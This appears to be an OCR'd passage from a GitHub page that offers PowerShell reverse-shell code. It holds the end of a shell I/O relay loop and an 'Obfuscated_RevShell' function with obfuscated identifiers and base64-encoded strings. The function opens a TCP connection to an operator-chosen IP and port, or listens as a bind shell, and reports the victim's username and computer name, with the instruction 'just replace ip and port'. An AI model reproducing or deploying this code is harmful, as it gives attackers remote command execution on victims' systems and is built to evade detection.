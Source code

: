 ```powershell
$inputstream.write($string)
start-sleep 1
if ($process.ExitCode -ne $null) {cleanup}
else {
$out = $encoding.GetString($outputstream.Read())
while($outputstream.Peek() -ne -1){
$out += $encoding.GetString($outputstream.Read()); if ($out -eq $string) {$out = ''}}
$stream.Write($encoding.GetBytes($out),0,$out.length)
$out = $null
$string = $null}} else {cleanup}}
```
<br>
<br>

### Obfuscated_RevShell

- A better powershell rev shell... just replace ip and port at the bottom

```powershell
function _/=\/==\_/==\_____ 
{ 
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(
        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        ${__/==\/=\_/==\/==\},
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        ${__/====\/\___/=\/\},
        [Parameter(ParameterSetName="reverse")]
        [Switch]
        ${__/\/\/=\_/\/\____},
        [Parameter(ParameterSetName="bind")]
        [Switch]
        ${__/=\_/\___/\/\__/}
    )
    try 
    {
        if (${__/\/\/=\_/\/\____})
        {
            ${/=\___/\__/\___/=} = New-Object System.Net.Sockets.TCPClient(${__/==\/=\_/==\/==\},${__/====\/\___/=\/\})
        }
        if (${__/=\_/\___/\/\__/})
        {
            ${_/===\___/=====\_} = [System.Net.Sockets.TcpListener]${__/====\/\___/=\/\}
            ${_/===\___/=====\_}.start()    
            ${/=\___/\__/\___/=} = ${_/===\___/=====\_}.AcceptTcpClient()
        } 
        ${/==\/====\___/\_/} = ${/=\___/\__/\___/=}.GetStream()
        [byte[]]${/==\/===\_/\_____} = 0..65535|%{0}
        ${/===\/\__/=======} = ([text.encoding]::ASCII).GetBytes($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('VwBpAG4AZABvAHcAcwAgAFAAbwB3AGUAcgBTAGgAZQBsAGwAIAByAHUAbgBuAGkAbgBnACAAYQBzACAAdQBzAGUAcgAgAA=='))) + $env:username + $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('IABvAG4AIAA='))) + $env:computername + $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('CgBDAG8AcAB5AHIAaQBnAGgAdAAgACgAQwApACAAMgAwADEANQAgAE0AaQBjAHIAbwBzAG8AZgB0ACAAQwBvAHIAcABvAHIAYQB0AGkAbwBuAC4AIABBAGwAbAAgAHIAaQBnAGgAdABzACAAcgBlAHMAZQByAHYAZQBkAC4ACgAKAA=='))))
        ${/==\/====\___/\_/}.Write(${/===\/\__/=======},0,${/===\/\__/=======}.Length)
        ${/===\/\__/=======} = ([text.encoding]::ASCII).GetBytes($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('UABTACAA'))) + (gl).Path + '>')
        ${/==\/====\___/\_/}.Write(${/===\/\__/=======},0,${/===\/\__/=======}.Length)
```